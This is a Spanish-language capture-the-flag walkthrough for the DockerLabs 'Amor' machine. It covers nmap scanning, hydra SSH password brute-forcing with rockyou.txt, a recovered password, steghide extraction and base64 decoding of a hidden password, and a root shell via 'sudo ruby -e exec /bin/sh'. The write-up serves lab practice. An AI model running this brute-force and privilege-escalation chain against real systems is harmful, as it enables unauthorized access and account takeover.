

# Readme Amor

## 1. Paso: Escaneo de Puertos

Realizamos un escaneo de que puertos hay abiertos con **nmap**

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Vemos que el puerto 22 **SSH** y el puerto 80 **HTTP** estan abiertos.

Con el siguiente comando, obtendremos más información acerca de los puertos que encontramos:

```bash
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```


## Paso 2: Pagina web

Al ver que el puerto **80** esta abierto, esto nos dice que es una pagina web, pondremos la ip en el navegador para entrar a la pagina web. 


Al mirar la pagina encontramos dos usuarios: **Carlota** y **Juan**.

## Paso 3: Explotación

Utilizaremos la herramienta **hydra** sobre los usuario:

Copiamos el siguiente comando:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```
(Lo haremos, tanto con carlota y para juan)

Obtendremos el siguiente resultado:




De juan no logramos obtener algo pero de carlota encontramos lo siguiente:

```bash
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```
Vemos que tenemos unas credenciales para entrar por un servicio **SSH**

```bash
ssh carlota@172.17.0.2
```
Ingresamos y ponemos la contraseña:


Y ya estamos adentro!!

Al movernos por los directorios vamos a encontrar una imagen.


Para verla vamos a usar el **scp**

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/albertomarcostic/Desktop/DockerLabs/Amor/content
```
(El comando se ajustara dependiendo de como tenga el directorio)

En otra terminal ejecutaremos el comando:


Y para revisar lo que tiene dentro utilizaremos la herramienta **steghide** :

```bash
steghide --extract -sf imagen.jpg
```
Vemos que hemos extraido **"secret.txt"**


Ponemos un **cat** para que nos muestre lo que tiene adentro:


obtendremos lo que parece ser una contraseña

```bash
ZXNsYWNhc2FkZXBpbnlwb24=

```

Y con **echo** vamos a decodificar la contraseña:

```
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
```
Obtenemos el siguiente resultado:


## Usuario Oscar

Si seguimos moviendonos por los directorios

Encontraremos que si nos movemos a **/home** y ponemos **ls** encontraremos otro usuario llamado **oscar**


Al cual procederemos a entrar ingresando la contraseña encontrada y escribiendo **bash**:


Y ya estamos como oscar.

Y ya para terminar colocamos el siguiente comando:

```bash
sudo ruby -e 'exec "/bin/sh"'
```
y colocando **bash**:


Ya somos el **superusuario** o **root** y hemos finalizado!
